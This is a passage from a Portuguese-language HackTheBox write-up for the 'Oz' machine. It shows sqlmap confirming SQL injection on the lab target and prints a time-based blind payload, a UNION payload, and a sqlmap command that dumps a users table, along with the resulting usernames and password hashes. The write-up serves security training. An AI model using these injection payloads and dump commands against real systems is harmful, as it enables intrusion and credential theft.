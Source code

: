 ### SQL Injection. 💉

![](https://march0s1as.github.io/writeups/Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%206.png)

Com isso, vamos ver se o mesmo é vulnerável a SQL Injection! Rodamos o SQLMAP (não tenho saco pra fazer na mão, perdão) e ele afirmou que é um target vulnerável e aqui está o payload:

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.96:80/users/' AND (SELECT 4539 FROM (SELECT(SLEEP(5)))HnFr) AND 'oafg'='oafg

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://10.10.10.96:80/users/' UNION ALL SELECT CONCAT(0x716b6a6a71,0x4a5a75686a466179666c6479446b6a69414a5775566c656e4d587945655252776a6463746c517144,0x7171717871)-- -


```

Após a enumeração de databases, tabelas e colunas, consegui pegar usuários e senhas (infelizmente criptografadas) na tabela “users_gwb”. Aqui está o resultado:

```
# sqlmap --url="http://10.10.10.96/users/" -D ozdb -T users_gbw -C id,password,username --dump

Database: ozdb                                                                                                                     
Table: users_gbw
[6 entries]
+----+----------------------------------------------------------------------------------------+-------------+
| id | password                                                                               | username    |
+----+----------------------------------------------------------------------------------------+-------------+
| 1  | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 | dorthi      |
| 2  | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk | tin.man     |
| 3  | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY | wizard.oz   |
| 4  | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY | coward.lyon |
| 5  | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg | toto        |
| 6  | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ | admin       |
+----+----------------------------------------------------------------------------------------+-------------+


```
